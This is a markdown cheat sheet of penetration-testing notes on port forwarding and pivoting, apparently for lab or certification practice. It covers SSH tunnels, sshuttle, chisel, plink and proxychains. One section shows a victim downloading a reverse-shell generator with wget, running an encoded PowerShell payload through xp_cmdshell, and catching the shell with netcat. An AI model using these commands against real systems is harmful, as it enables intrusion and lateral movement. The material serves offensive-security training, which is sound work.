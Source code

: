 # Port Forwarding / Pivoting



<details>

<summary>Dynamic Port Forwarding</summary>

On Kali machine:

```bash
ssh -f -N -D 1080 j0hn@10.11.1.252
```

Edit `/etc/proxychains.conf`

```bash
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5 	127.0.0.1 1080
```

Using tools:

```bash
proxychains -q curl http://10.3.3.13
```

For burp, see [here](../configurations/burpsuite-upstream-proxy.md)

</details>

<details>

<summary>Reverse Port Forwarding</summary>

On Kali:

```bash
service ssh start
```

On Target:&#x20;

```bash
ssh -f -N -R 44544:127.0.0.1:445 kali@192.168.45.241
```

* Opens port 44544 on kali and forwards to the target's port 445.

</details>

<details>

<summary>Sshuttle</summary>

On Kali:

* SSH creds of edge machine
* Internal network to be exposed

```bash
sshuttle -r sean@10.11.1.251 10.1.1.0/24
```

</details>

<details>

<summary>Chisel &#x26; Proxychains</summary>

### Kill port 8080

```bash
fuser -k 8080/tcp
```

### On Kali:

* Copied chisel [pre-compiled](https://github.com/jpillora/chisel/releases/tag/v1.7.6)

```bash
chisel server -p 8080 --reverse
```

* Edit `/etc/proxychains.conf`

```bash
socks5 127.0.0.1 1080
```

### On Victim:

```bash
chisel client 192.168.45.191:8080 R:socks
```

## Configure Burp for Web Browsing via Chisel

```bash
Proxy Type: SOCKS5
Proxy IP address: 127.0.0.1
Port: 1080
```

## Proxychains Nmap Usage

* Have to use TCP Connect scan (-sT)
* ICMP doesn’t work over proxychains (hence need -Pn)
* vv slow, could instead install & use nmap on the compromised host.

```bash
proxychains nmap ..
```

</details>

<details>

<summary>Reverse Port Forward to Remote Server (when victim can't reach attacker directly)</summary>

[https://simplecheatsheet.com/ssh-tunnel-proxy/](https://simplecheatsheet.com/ssh-tunnel-proxy/)

### Background

* Attacker has access to MS01.
* Chisel is already in place but MS02 in internal network still unable to reach attacker.

### On Kali:

```bash
ssh web_svc@192.168.218.147 -N -R *:7777:localhost:7777
```

### On Victim:

* Insert in MS01's internal IP as Reverse IP
* Reverse port is 7777

```bash
wget https://gist.githubusercontent.com/tothi/ab288fb523a4b32b51a53e542d40fe58/raw/40ade3fb5e3665b82310c08d36597123c2e75ab4/mkpsrevshell.py
python3 mkpsrevshell.py 10.10.108.147 7777
SQL> xp_cmdshell "powershell -e JABj..."
```

### On Kali:

```bash
nc -lvp 7777
# listening on [any] 7777 ...
# connect to [127.0.0.1] from localhost [127.0.0.1] 39614

# PS C:\Windows\system32> whoami
# nt service\mssql$sqlexpress
```

</details>

<details>

<summary>Exposing An Internal port from Windows Victim</summary>

### Using Plink:

To forward victim port 80 to kali's port 80

On Windows victim:

```bash
plink.exe -N -R 80:127.0.0.1:80 kali@192.168.45.5 -pw .8monitor
```

#### If port 22 is blocked --> try other ports

```bash
# Inside /etc/ssh/sshd_config
	  14 Port 139
	  15 AddressFamily any
	  16 ListenAddress 0.0.0.0
  	  17 ListenAddress ::

# On Victim
plink.exe -N -R 8888:127.0.0.1:8888 kali@10.10.14.2 -pw .8monitor -P 139
```

### Using Chisel:

To forward victim's port 3306 to kali's port 3306

On Kali:

```bash
chisel server -p 8080 --reverse
```

On Victim:

```bash
chiselx64.exe client 192.168.45.5:8080 R:3306:127.0.0.1:3306
```

</details>

<details>

<summary>Local Port Forwarding</summary>

To forward victim port 80 to kali's port 8000.

On Kali:

```bash
ssh -N -L 8000:192.168.165.99:80 ariah@192.168.165.99
```

</details>

<details>

<summary>Double Pivoting</summary>

### Use port 2080 instead

```bash
proxychains -q ssh -f -N -D 2080 -o KexAlgorithms=diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-dss bill@10.1.1.1
```

### Copy /etc/proxychains.conf, edit the port to 2080

```bash
 111 [ProxyList]
 112 # add proxy here ...
 113 # meanwhile
 114 # defaults set to "tor"
 115 socks5  127.0.0.1 2080
```

### Usage&#x20;

```bash
proxychains -q -f /home/kali/Documents/offsec/10.1.1.1/proxychains_2080.conf nmap --top-ports 100 -sT -Pn 10.3.3.14
```

</details>

<details>

<summary>Links</summary>

[https://gist.github.com/grantpullen/5a1c79a4e4a28e3b1d66ae17c8a9eb61](https://gist.github.com/grantpullen/5a1c79a4e4a28e3b1d66ae17c8a9eb61)

[https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html](https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html)

[https://www.ctfnote.com/red-teaming/pivoting](https://www.ctfnote.com/red-teaming/pivoting)

</details>

